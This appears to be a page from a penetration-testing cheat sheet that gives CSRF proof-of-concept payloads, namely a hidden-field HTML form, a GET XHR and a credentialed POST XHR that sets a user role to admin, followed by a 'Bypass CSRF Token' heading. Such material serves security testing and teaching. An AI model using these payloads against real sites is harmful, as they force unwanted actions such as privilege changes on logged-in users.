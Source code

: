 1. HTML POST Method

```
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

1. JSON GET Method

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

1. JSON POST Method

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass CSRF Token

![](<../../../.gitbook/assets/image (23).png>)
